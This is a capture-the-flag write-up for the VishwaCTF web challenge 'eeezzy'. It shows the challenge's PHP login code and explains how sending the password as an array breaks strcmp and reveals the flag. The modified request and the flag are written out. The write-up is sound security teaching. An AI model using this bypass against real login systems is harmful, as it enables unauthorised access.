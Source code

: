 # eeezzy
- Challenge Name : eeezzy
- Difficulty :  Easy

## Challenge Description
I forgot my login details again!



## Methodology
A web instance was provided to us where we needed to get the flag. 

![image](https://user-images.githubusercontent.com/121932742/231846273-3ac014d2-50b9-4996-8bce-6185bd400f25.png)

Lets see what's given for us, like we do in our math and physics numericals.

We have two things one is login form and view source code option in the right bottom.

```
<?php  
  
    session_start();    $_SESSION['status']=null;    $flag="";  
    try {  
        if (isset($_GET['username']) && isset($_GET['password'])) {  
            if (strcmp($_GET['username'], $flag)==0 && strcmp($_GET['password'], $flag)==0)                $_SESSION['status']=$flag;  
            else                $_SESSION['status']="Invalid username or password";  
        }  
    } catch (Throwable $th) {        $_SESSION['status']=$flag;  
    }  
  
?>
```

So we have something fishy over here...

The code has stringcompare vulnerablity known as strcmp()

Find more about it here https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016

Now enter some random strings in User and Pwd form or can even submit [SPACE] to avoid confusions intercepting it in URL.

I intercepted the request in the login form and updated this
**GET /?username=admin&password=admin&submit=Login HTTP/2__**
To
**GET /?username=&password[]=&submit=Login HTTP/2**

Here is the flag in the form of error

<img width="1436" alt="image" src="https://user-images.githubusercontent.com/121932742/231860272-a9c5e469-4bfa-4c24-a8d8-34b529592302.png">

**VishwaCTF{5t0p_c0mp4r1ng}**


